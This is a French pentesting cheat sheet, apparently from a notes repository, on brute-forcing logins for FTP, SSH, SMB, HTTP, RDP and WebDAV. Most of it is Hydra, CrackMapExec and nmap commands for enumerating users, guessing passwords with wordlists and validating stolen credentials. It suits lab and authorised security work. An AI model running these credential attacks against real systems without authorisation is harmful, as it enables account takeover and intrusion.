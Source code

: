# 🔨 Techniques de Bruteforce

[← Retour à la table des matières](../README.md)

## 📋 Navigation Rapide

### Outils Principaux
- [Hydra](../06-tools/hydra.md) - Bruteforce multi-protocoles
- [CrackMapExec](../06-tools/crackmapexec.md) - Énumération et bruteforce réseau

### Par Service
- [FTP Bruteforce](#ftp)
- [SSH Bruteforce](#ssh)
- [SMB Bruteforce](#smb)
- [HTTP Bruteforce](#http)
- [RDP Bruteforce](#rdp)
- [WebDAV Bruteforce](#webdav)

---

## FTP
```bash
# Hydra FTP
hydra -L users.txt -P passwords.txt targetIP ftp

# Test d'accès anonyme
ftp targetIP
# Username: anonymous
# Password: anonymous
```
**→ [Guide FTP complet](../03-enumeration/ftp.md)**

## SSH
```bash
# Hydra SSH
hydra -L users.txt -P passwords.txt targetIP ssh

# Test de comptes par défaut
ssh root@targetIP
ssh admin@targetIP
```
**→ [Guide SSH complet](../03-enumeration/ssh.md)**

## SMB
```bash
# Hydra SMB
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt smb://targetIP

# CrackMapExec SMB
crackmapexec smb targetIP -u users.txt -p passwords.txt
```
**→ [Guide SMB complet](../03-enumeration/smb-samba.md)**

## HTTP
```bash
# Hydra HTTP POST
hydra -L users.txt -P passwords.txt targetIP http-post-form "/login:username=^USER^&password=^PASS^:Invalid"

# Hydra HTTP Basic Auth
hydra -L users.txt -P passwords.txt targetIP http-get /admin/
```
**→ [Guide HTTP complet](../03-enumeration/http-web.md)**

## RDP
```bash
# Hydra RDP (réduire les threads)
hydra -L users.txt -P passwords.txt rdp://targetIP -s 3389 -t 1 -V

# CrackMapExec RDP
crackmapexec rdp targetIP -u users.txt -p passwords.txt
```
**→ [Guide RDP complet](../03-enumeration/rdp.md)**

## WebDAV
```bash
# Hydra WebDAV
hydra -L users.txt -P passwords.txt targetIP http-get /webdav/
```
**→ [Guide WebDAV complet](../03-enumeration/webdav.md)**

---

## 🎯 Méthodologie Générale

### 1. Énumération des utilisateurs
```bash
# SMB
nmap -p445 --script smb-enum-users.nse targetIP

# SMTP
nmap -p25 --script smtp-enum-users.nse targetIP
```

### 2. Création des wordlists
```bash
# Utilisateurs découverts
echo -e "administrator\nroot\nadmin\nuser" > users.txt

# Wordlists communes
/usr/share/metasploit-framework/data/wordlists/common_users.txt
/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
/usr/share/wordlists/rockyou.txt
```

### 3. Bruteforce ciblé
```bash
# Commencer par les comptes à privilèges
hydra -l administrator -P passwords.txt targetIP service

# Puis élargir aux autres utilisateurs
hydra -L users.txt -P passwords.txt targetIP service
```

### 4. Validation des credentials
```bash
# Tester les credentials découverts
crackmapexec smb targetIP -u username -p password
smbclient //targetIP/C$ -U username
```

## ⚠️ Bonnes Pratiques

- **Réduire les threads** pour RDP (-t 1) pour éviter de planter le service
- **Utiliser des wordlists ciblées** plutôt que rockyou.txt en premier
- **Tester l'accès anonyme** avant le bruteforce
- **Valider les credentials** avec plusieurs outils
- **Documenter les résultats** pour éviter les doublons